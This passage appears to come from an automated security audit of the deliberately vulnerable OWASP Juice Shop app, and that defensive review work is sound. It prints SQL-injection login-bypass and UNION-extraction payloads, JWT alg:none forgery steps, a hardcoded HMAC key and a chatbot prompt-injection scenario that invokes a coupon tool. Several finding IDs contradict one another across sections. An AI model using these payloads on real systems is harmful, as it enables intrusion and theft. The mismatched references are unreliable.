- 🟠 [F-025](#f-025) — `codeql-analysis.yml` uses `github/codeql-action@v3` (three separate steps) without commit SHA pins.
- 🟠 [F-026](#f-026) — `codeql-analysis.yml` has no explicit `permissions:` block; the default token scope is broader than the workflow requires.

<a id="automated-dependency-updates"></a>
#### 7.11.6 Automated dependency updates

**Status:** 🔴 Missing - no Dependabot or Renovate configuration exists in the repository; dependency version updates require manual pull requests.

Automated dependency update tooling (GitHub Dependabot, Renovate Bot) would open pull requests when new versions of direct dependencies are published, triggering CI and review before adoption. No `.github/dependabot.yml` or `renovate.json` file is present in the repository.

**Security assessment**

Without automated dependency-update PRs, security patches to npm packages accumulate silently. The combination of `package-lock=false` (no lockfile) and no Dependabot means that the dependency set is both non-deterministic at install time and not actively tracked for new versions. The `npm audit` tool can identify known-vulnerable packages, but without a lockfile, the audit result is also non-deterministic. Adding a `dependabot.yml` with `package-ecosystem: npm` and a weekly schedule would provide automated coverage; removing `package-lock=false` is a prerequisite for lockfile-aware Dependabot behavior.

**Relevant findings**

- 🟠 [F-023](#f-023) — No Dependabot or Renovate configuration; no automated dependency-update PR bot.
- 🟠 [F-025](#f-025) — GitHub Actions workflows also have no Dependabot `package-ecosystem: github-actions` coverage.
- 🟠 [F-026](#f-026) — The Docker base images have no automated update tracking either.

<a id="lockfile-hygiene"></a>
#### 7.11.7 Lockfile hygiene

**Status:** 🔴 Missing - `.npmrc:1` sets `package-lock=false`, preventing `npm install` from generating or honoring a `package-lock.json`; transitive dependency resolution is non-deterministic across environments.

`npm install` normally generates and maintains a `package-lock.json` that records the exact resolved version and `SHA-512` integrity hash for every package in the dependency tree. `.npmrc` in the repository root disables this with `package-lock=false`.

**Security assessment**

`package-lock=false` means `npm install` resolves the latest satisfying version for every transitive dependency on each run. Two builds from the same `package.json` on different days may use different transitive package versions. `npm ci` - the deterministic install command used in most secure CI pipelines - requires a lockfile and fails without one. Removing the `package-lock=false` line and committing the resulting `package-lock.json` is a single-line fix that restores reproducibility, enables `npm ci` in CI, enables lockfile-aware `npm audit`, and enables Dependabot lockfile-mode updates.

**Relevant findings**

- 🟠 [F-023](#f-023) — `.npmrc:1` disables lockfile generation; confirmed root cause of non-deterministic dependency resolution.
- 🟠 [F-025](#f-025) — Non-deterministic installs also affect the CI environment; SHA-pinned actions cannot compensate for floating transitive npm packages.
- 🟠 [F-026](#f-026) — `docker-compose.test.yml` uses `bkimminich/juice-shop:latest`, compounding the reproducibility gap at the container layer.

### 7.12 Real-time and Not Applicable Controls

**Verdict:** 🔴 Missing - `Socket.IO` 3.1.2 is present and handles real-time challenge notifications; connections are accepted without authentication or rate-limiting; the LLM chat interface accepts user messages without prompt-injection filtering.

**Controls covered:**

- [7.12.1 WebSocket Authentication](#7121-websocket-authentication)
- [7.12.2 LLM Prompt Injection Prevention](#7122-llm-prompt-injection-prevention)

**Implemented controls:** `Socket.IO` server initialized in `lib/startup/registerWebsocketEvents.ts:20` with CORS limited to `http://localhost:4200`; `@ai-sdk/openai-compatible` and Vercel `ai` library back the `/rest/chatbot/respond` endpoint in `routes/chat.ts`.

**Assessment:** Two real-time surfaces are present. The `Socket.IO` channel accepts unauthenticated connections from any browser, emits all active challenge notifications to every new connection, and processes client event data with a catastrophic-backtracking regex. The LLM chat endpoint accepts arbitrary user messages, constructs prompts from them, and calls the configured LLM without sanitizing or filtering for prompt-injection payloads.

<a id="websocket-authentication"></a>
#### 7.12.1 WebSocket Authentication

**Status:** 🔴 Missing - `io.on('connection', callback)` at `registerWebsocketEvents.ts:24` accepts any TCP connection without validating a JWT or session token; all active challenge notifications are broadcast to every connecting socket.

`lib/startup/registerWebsocketEvents.ts` initializes a `Socket.IO` server at startup and registers an `io.on('connection')` handler that immediately emits pending challenge notifications to the new socket. Subsequent event handlers process client-sent data for challenge-verification logic.

The diagram shows the unauthenticated connection and event flow:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant WS
    Note over WS: Socket.IO Server (registerWebsocketEvents.ts)
    participant Store as Challenge Notification Store

    Attacker->>WS: TCP connect (no auth token required)
    WS->>Store: Fetch all pending notifications
    Store-->>WS: Notification array
    WS-->>Attacker: emit('server started') + emit('challenge solved', n) for each
    Attacker->>WS: emit('verifySvgInjectionChallenge', crafted-payload)
    WS->>WS: regex.match(crafted-payload) - ReDoS risk (registerWebsocketEvents.ts:46)
```

**Security assessment**

`registerWebsocketEvents.ts:20` creates the `Socket.IO` server with `cors: { origin: 'http://localhost:4200' }`, which restricts the `Origin` header in the HTTP upgrade request but does not require any credential. Any WebSocket client (browser, `wscat`, script) that connects receives the full list of solved challenge notifications across all users. The `verifySvgInjectionChallenge` event handler at line 46 runs a regex match on the client-supplied payload; the regex includes a catastrophic-backtracking pattern that stalls the Node\.js event loop on crafted input (ReDoS). No connection rate-limit prevents repeated connect/disconnect cycles.

**Relevant findings**

- 🟠 [F-012](#f-012) — `Socket.IO` connection accepted without authentication at `registerWebsocketEvents.ts:24`.
- 🟠 [F-035](#f-035) — Catastrophic-backtracking regex on `verifySvgInjectionChallenge` event data at `registerWebsocketEvents.ts:46`.
- 🟡 [F-064](#f-064) — No rate-limit or connection cap on the unauthenticated `Socket.IO` endpoint.

<a id="llm-prompt-injection-prevention"></a>
#### 7.12.2 LLM Prompt Injection Prevention

**Status:** 🔴 Missing - `routes/chat.ts` constructs LLM messages directly from `req.body.query` without sanitizing or filtering prompt-injection payloads; the LLM is configured with a coupon-generation tool that an injection can invoke.

`routes/chat.ts` accepts a POST body with a `query` field, assembles a message array from the system prompt and the user query, and passes it to the LLM via the `@ai-sdk/openai-compatible` client with streaming enabled. A `coupon` tool is registered that the LLM can call to generate discount codes.

**Security assessment**

User input from `req.body.query` is passed to the LLM without preprocessing, allowlisting, or injection-pattern detection. A prompt-injection payload in the `query` field can instruct the model to override its system prompt, invoke the coupon tool with attacker-controlled parameters (excessive-agency risk), or return sensitive information from the system context. The coupon tool is particularly exposed: a successful injection that invokes `generateCoupon()` produces legitimate discount codes without requiring user authorization. The LLM endpoint is also unauthenticated (no `isAuthorized()` middleware), so injection is available to any anonymous caller.

**Relevant findings**

- 🟠 [F-021](#f-021) — LLM chat endpoint accessible without authentication; no authentication gate on `POST /rest/chatbot/respond`.
- 🟠 [F-022](#f-022) — Prompt injection via `req.body.query` passed directly to LLM message construction in `routes/chat.ts`.
- 🔴 [F-038](#f-038) — Coupon tool registered with the LLM can be invoked via prompt injection, constituting an excessive-agency risk.

### 7.13 Defense-in-Depth Summary

**Verdict:** -

The strongest positive control in this codebase is the container runtime posture: the distroless final image (`gcr.io/distroless/nodejs24-debian13`) with `USER 65532` removes the shell and package manager from the runtime environment, narrowing post-exploitation options. Within the application layer, `RS256` asymmetric signing is an architecturally sound algorithm choice for JWT issuance, Angular's default template escaping protects the majority of rendering paths, `npm install --ignore-scripts` in CI blocks postinstall-script execution from transitive dependencies, and CodeQL plus ZAP provide automated SAST and DAST coverage on every push.

Restoring layered defense requires closing three root-cause boundaries that currently defeat multiple downstream controls simultaneously. First, moving the RSA private key and HMAC key out of source and into runtime-injected secrets would restore the JWT signing and security-answer boundaries without any application-logic change. Second, replacing the raw SQL template literals in `routes/login.ts:34` and `routes/search.ts` with Sequelize parameterized queries would close the SQL injection paths that currently allow authentication bypass and data exfiltration regardless of all other authentication controls. Third, moving the session JWT from `localStorage` to an `HttpOnly; Secure; SameSite=Strict` cookie (ideally via a Backend-for-Frontend pattern) would contain the stored-XSS exfiltration path and eliminate the CSRF structural gap simultaneously. These three repairs do not require architectural changes - they repair the existing controls to the level the architecture already assumes.

<!-- enriched:standard -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 8 · 🟠 High: 38 · 🟡 Medium: 18 · 🟢 Low: 10 · **Total findings: 74**
**STRIDE Coverage:** Spoofing: 10 · Tampering: 14 · Repudiation: 5 · Information Disclosure: 27 · Denial of Service: 8 · Elevation of Privilege: 10

**Findings index:**<br/>🟠 [F-001](#f-001) — SPA holds API bearer credential client-side with no…<br/>🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source (`lib/insecurity.ts:23`)<br/>🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:57`)<br/>🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth…<br/>🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass (`routes/login.ts:34`)<br/>🔴 [F-006](#f-006) — SQL injection in product search raw query (`routes/search.ts:23`)<br/>🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery…<br/>🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes (`models/user.ts:77`)<br/>🟠 [F-010](#f-010) — Security-question-based password reset enables…<br/>🟠 [F-011](#f-011) — Missing Authentication on Chat Endpoint (`server.ts:637`)<br/>🟠 [F-012](#f-012) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-013](#f-013) — Wallet ownership accepted from request body without proof…<br/>🟠 [F-014](#f-014) — Zip-Slip path traversal in complaint zip extraction…<br/>🟠 [F-015](#f-015) — Unpinned GitHub Action to Mutable Ref (`image_actions.yml:33`)<br/>🟠 [F-016](#f-016) — Lockfile Disabled by Config — .npmrc:1<br/>🟠 [F-017](#f-017) — Stored XSS (`last-login-ip.component.ts:39`)<br/>🟠 [F-018](#f-018) — DOM XSS (`search-result.component.ts:143`)<br/>🟠 [F-019](#f-019) — Prompt Injection (`routes/chat.ts:189`)<br/>🟠 [F-020](#f-020) — Hardcoded HMAC key guards knowledge-based password reset…<br/>🟠 [F-021](#f-021) — XXE: XML parsed with external entities enabled (`routes/fileUpload.ts:83`)<br/>🟠 [F-022](#f-022) — SSRF (`routes/profileImageUrlUpload.ts:24`)<br/>🟠 [F-023](#f-023) — No --unsafe-perm install flag — Dockerfile:5<br/>🟠 [F-024](#f-024) — GitHub Actions workflow-level permissions block (`release.yml:1`)<br/>🟠 [F-025](#f-025) — Third-party GitHub Actions pinned to commit SHA (`lock.yml:15`)<br/>🟠 [F-026](#f-026) — Base image must be digest-pinned — Dockerfile:1<br/>🟠 [F-027](#f-027) — On present and committed (`package-lock.json:1`)<br/>🟠 [F-028](#f-028) — Sensitive columns stored unencrypted at rest (`models/card.ts:40`)<br/>🟠 [F-029](#f-029) — Security answers HMAC'd with a hardcoded static…<br/>🟠 [F-030](#f-030) — OAuth access_token passed in URL fragment and query…<br/>🟠 [F-031](#f-031) — JWT stored in non-httpOnly localStorage (`request.interceptor.ts:16`)<br/>🟠 [F-032](#f-032) — Reset-password rate limit keyed on spoofable forwarding header…<br/>🟠 [F-033](#f-033) — No rate limiting on login endpoint permits credential…<br/>🟠 [F-034](#f-034) — No rate limiting or lockout on POST `/rest/user/login` (`server.ts:595`)<br/>🟠 [F-035](#f-035) — Catastrophic-backtracking regex on client data…<br/>🟠 [F-036](#f-036) — Web3 endpoints have no rate limiting and grow (`routes/web3Wallet.ts:16`)<br/>🟠 [F-037](#f-037) — No server-side token revocation; logout leaves JWT valid…<br/>🟠 [F-038](#f-038) — Server-side eval of user-controlled username (`routes/userProfile.ts:61`)<br/>🟠 [F-039](#f-039) — Sensitive Routes Registered Without Authentication Middleware…<br/>🟠 [F-040](#f-040) — Authenticated GET `/api/Users` exposes full user table without…<br/>🟠 [F-041](#f-041) — Missing Explicit Workflow Permissions (`ci.yml:1`)<br/>🟠 [F-042](#f-042) — Install Scripts Execute on Untrusted PR (`ci.yml:161`)<br/>🟠 [F-043](#f-043) — `User.role` is a mass-assignable column with only isIn (`models/user.ts:80`)<br/>🟠 [F-044](#f-044) — Admin authorization decided client-side from unverified JWT…<br/>🟠 [F-045](#f-045) — Excessive LLM Agency in Coupon Tool (`routes/chat.ts:174`)<br/>🟠 [F-046](#f-046) — Web3 state-changing endpoints registered without authentication…<br/>🟡 [F-047](#f-047) — Redirect allowlist uses substring match, enabling open…<br/>🟡 [F-048](#f-048) — Long-Lived Publish Token Instead of OIDC (`release.yml:65`)<br/>🟡 [F-049](#f-049) — Socket\.IO WebSocket established without authentication…<br/>🟡 [F-050](#f-050) — Untrusted External Contribution to Public Repository (`ci.yml:14`)<br/>🟡 [F-051](#f-051) — No Automated Dependency Update or PR Dependency-Review Gate (`ci.yml:14`)<br/>🟡 [F-052](#f-052) — InnerHTML sink renders markdown-derived hint HTML (`index.ts:126`)<br/>🟡 [F-053](#f-053) — Alchemy RPC WebSocket event data trusted without…<br/>🟡 [F-054](#f-054) — No audit logging of authentication and account-recovery…<br/>🟡 [F-055](#f-055) — No security audit log for authentication and admin actions…<br/>🟡 [F-056](#f-056) — Missing Audit Logging of Coupon and Tool Actions (`routes/chat.ts:179`)<br/>🟡 [F-057](#f-057) — Express errorhandler returns full stack traces unconditionally…<br/>🟡 [F-058](#f-058) — USER directive — Dockerfile:1<br/>🟡 [F-059](#f-059) — Container image signing (`lock.yml:1`)<br/>🟡 [F-060](#f-060) — Privileged Secrets Reachable in pull_request_target Flow…<br/>🟡 [F-061](#f-061) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:1<br/>🟡 [F-062](#f-062) — GITHUB_TOKEN scope minimization (`lock.yml:1`)<br/>🟡 [F-063](#f-063) — Unbounded LLM Consumption on Chat Endpoint (`server.ts:637`)<br/>🟡 [F-064](#f-064) — No rate limiting or connection cap on (`registerWebsocketEvents.ts:21`)<br/>🟢 [F-065](#f-065) — No Build Provenance Attestation on Published Image (`release.yml:74`)<br/>🟢 [F-066](#f-066) — Security-relevant client errors logged only to console (`app.guard.ts:41`)<br/>🟢 [F-067](#f-067) — No audit logging of WebSocket events or state…<br/>🟢 [F-068](#f-068) — Unauthenticated GET `/metrics` exposes Prometheus internals…<br/>🟢 [F-069](#f-069) — HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-070](#f-070) — SBOM generation in build pipeline (`lock.yml:1`)<br/>🟢 [F-071](#f-071) — Renovate config present (`renovate.json:1`)<br/>🟢 [F-072](#f-072) — Hardcoded permissive CORS origin on Socket\.IO…<br/>🟢 [F-073](#f-073) — Raw error message returned to client on web3 handler…<br/>🟢 [F-074](#f-074) — Client CAPTCHA timestamp read unvalidated from…

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-06"></a><a id="th-04"></a><a id="th-05"></a><a id="th-08"></a><a id="th-09"></a><a id="th-10"></a><a id="th-11"></a><a id="th-12"></a><a id="th-14"></a><a id="th-17"></a><a id="th-13"></a><a id="th-16"></a>

### 🔴 Critical (8)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-09](#c-09) - Authentication and Session Surface  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The RSA private key used to sign every authentication JWT is a string literal in `lib/insecurity.ts:23` and is committed to the public repository. `authorize()` (line 56) signs tokens with this key.

Any attacker who reads the source can mint a JWT with arbitrary `data.role` (e.g. 'admin') and a valid deluxeToken HMAC (`deluxeToken()` at line 152 also derives from the same private key), then present it to any `isAuthorized()`-protected endpoint. This is full authentication and authorization bypass against the entire application.

Attacker forges admin-role JWTs offline, gaining complete account takeover and privileged access without credentials.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - privateKey is a hardcoded 1024-bit RSA PEM literal at `lib/insecurity.ts:23`, consumed by `authorize()` at line 56 and `deluxeToken()` at line 152.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-016](#m-016) — Move cryptographic keys to a managed secret store

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Hardcoded Credentials

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The RSA private key used to sign all session JWTs is embedded as a string constant in `lib/insecurity.ts`. Anyone with read access to the public repository (the project is open source) holds the exact key, so they can mint valid `RS256` tokens for any user id and role='admin' entirely offline, with no server interaction, bypassing every authorization check that trusts the signature.

Offline forgery of arbitrary admin sessions; the JWT signature provides no security against anyone who has seen the source.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - privateKey is a literal PEM string assigned in `lib/insecurity.ts` and used directly in `jwt.sign`().

```typescript
// lib/insecurity.ts:23
import * as z85 from 'z85'

export const publicKey = fs ? fs.readFileSync('encryptionkeys/jwt.pub', 'utf8') : 'placeholder-public-key'
const privateKey = '[PEM PRIVATE KEY — REDACTED]

interface ResponseWithUser {
  status?: string
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ❶ [M-022](#m-022) — Move secrets to a managed secret store

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-09](#c-09) - Authentication and Session Surface  ·  **Location:** `lib/insecurity.ts:57`

**Instances (6):** 🔴 `lib/insecurity.ts:57`, 🔴 `lib/insecurity.ts:54`, 🟠 `lib/insecurity.ts:55`, 🟠 `lib/insecurity.ts:58`, 🔴 `lib/insecurity.ts:191`, 🔴 `routes/verify.ts:119`

**Issue:** `verify()` calls jws.verify(token, publicKey) with no algorithm allowlist, and `isAuthorized()` (line 54) wires express-jwt 0.1.3 with only { secret: publicKey } and no algorithms option. Both express-jwt 0.1.3 and jsonwebtoken 0.4.0 are pre-CVE-2015-9235 versions that accept the 'none' algorithm and allow algorithm confusion (signing an `RS256`-verified token with the public key as an HMAC secret).

An attacker crafts a token with header `alg:none` (or `HS256` using the published public key) carrying `data.role`='admin' and passes `isAccounting()`/`isDeluxe()`/`isAuthorized()` checks without possessing the private key. Attacker bypasses signature verification entirely (`alg:none`) or via algorithm confusion, forging any-role tokens for full takeover.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `verify()` (line 57) and `isAuthorized()` (line 54) perform signature verification without an algorithms allowlist on express-jwt 0.1.3 / jsonwebtoken 0.4.0.

```typescript
// lib/insecurity.ts:57
export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
export const decode = (token: string) => { return jws.decode(token)?.payload }

export const sanitizeHtml = (html: string) => sanitizeHtmlLib(html)
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-017](#m-017) — Enforce JWT signature and algorithm verification

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Improper Authentication

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Issue:** After the OAuth callback, the SPA derives a deterministic account password 'btoa(profile.email.split('').reverse().join(''))' (`oauth.component.ts:30`) and both registers (save) and logs in (`oauth.component.ts:46`) with it. The password is a pure function of the public email address, so anyone who knows a victim's email can reconstruct it (reverse the local+domain string, base64-encode) and authenticate to that account through the normal `/rest/user/login` endpoint - a complete parallel-authentication bypass that does not require the OAuth flow at all.

Email addresses are not secrets, so this reduces account security to zero for every OAuth-provisioned user. Any attacker who knows a victim's email can log in as them, fully bypassing authentication for OAuth-provisioned accounts.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - The OAuth component computes the account password by base64-encoding the reversed email and uses it for both registration and login.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
            this.login(profile)
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❶ [M-018](#m-018) — Harden the authentication flow

**Classification:** Broken Authentication · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-09](#c-09) - Authentication and Session Surface  ·  **Location:** `routes/login.ts:34`

**Issue:** The login handler builds a raw SQL string by interpolating `req.body.email` directly into a SELECT against the Users table, then runs it via `sequelize.query` with plain:true. Submitting email = "' OR 1=1--" returns the first user row (the admin) and the handler issues that user a valid JWT at line 49, bypassing the password check entirely.

An attacker can also pivot to UNION-based extraction of any column. This is the canonical Juice-Shop login-bypass and admin-account-takeover vector.

Unauthenticated attacker logs in as any user (including admin) and exfiltrates the full Users table via UNION injection.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `req.body.email` is string-concatenated into the WHERE clause of a raw `sequelize.query` at `routes/login.ts:34` with no parameterization.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-019](#m-019) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/search.ts:23`

**Issue:** `searchProducts()` interpolates the `q` query parameter into a raw SQL string after only a 200-char length cap (no escaping): `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') ...)`. An unauthenticated attacker calls GET `/rest/products/search`?q=`')) UNION SELECT id,email,password,...FROM Users--` to exfiltrate the full user table including md5 password hashes, or `' AND 1=2)) UNION SELECT sql,1,...

FROM sqlite_master--` to dump the schema. Unauthenticated UNION-based extraction of arbitrary tables and full database schema disclosure.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - criteria (`req.query.q`, truncated to 200 chars) is concatenated into the LIKE clause of a `sequelize.query` call with no parameterization.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-020](#m-020) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/address.ts:11`

**Instances (21):** 🟢 `routes/chat.ts:167`, 🔴 `routes/address.ts:11`, 🔴 `routes/address.ts:18`, 🔴 `routes/address.ts:29`, 🟠 `routes/basketItems.ts:68`, 🔴 `routes/dataExport.ts:26`, 🟠 `routes/delivery.ts:34`, 🔴 `routes/deluxe.ts:25` … (+13 more)

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:11

export function getAddress () {
  return async (req: Request, res: Response) => {
    const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
    res.status(200).json({ status: 'success', data: addresses })
  }
}
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Password Hash with Insufficient Effort

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-03](#c-03) - SQLite Data Layer  ·  **Location:** `models/user.ts:77`

**Issue:** The User model's password setter calls `security.hash`(clearTextPassword), which is crypto.createHash('md5').update(data).digest('hex') (`lib/insecurity.ts:43`) - a single-round, unsalted `MD5` digest. Every password column in the Users table is therefore a bare `MD5` hash.

An attacker who obtains the SQLite file (data/juiceshop.sqlite, an unencrypted file accessible to any process or backup with OS file read) can crack the entire user base offline at billions of guesses per second on commodity GPUs, and identical passwords across users produce identical hashes (no per-user salt), enabling instant rainbow-table lookups and cross-account password reuse detection. Full plaintext recovery of all stored user passwords once the database file is read, enabling account takeover and credential-stuffing against other services.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - The password setter in `user.ts:77` delegates to `security.hash`, which is defined as an unsalted single-round `MD5` digest at `insecurity.ts:43`.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❶ [M-023](#m-023) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

### 🟠 High (38)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Hardcoded Credentials

**Severity:** 🟠 High - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-09](#c-09) - Authentication and Session Surface  ·  **Location:** `lib/insecurity.ts:44`

**Issue:** Password reset at `routes/resetPassword.ts:41` authenticates the user solely by comparing `security.hmac`(answer) to the stored security-answer HMAC. `hmac()` uses the committed static key 'pa4qacea4VK9t9nGv7yZtwmj'.

Because the key is public, an attacker who learns or guesses a victim's security answer (frequently low-entropy: a first name, a pet, a place such as 'Samuel'/'Stop'n'Drop' seen in verifySecurityAnswerChallenges) can reset any account's password to one they control via POST `/rest/user/reset-password`, with no possession of the original password. Attacker resets arbitrary accounts using guessable knowledge-based answers, achieving account takeover without the password.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - Security answers are HMAC'd with a hardcoded literal key at `lib/insecurity.ts:44` and that HMAC is the only credential checked at `routes/resetPassword.ts:41`.

```typescript
// lib/insecurity.ts:44

export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')
export const hmac = (data: string) => crypto.createHmac('sha256', 'pa4qacea4VK9t9nGv7yZtwmj').update(data).digest('hex')

export const cutOffPoisonNullByte = (str: string) => {
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ❷ [M-034](#m-034) — Move secrets to a managed secret store

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Hardcoded Credentials

**Severity:** 🟠 High - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-03](#c-03) - SQLite Data Layer  ·  **Location:** `models/securityAnswer.ts:48`

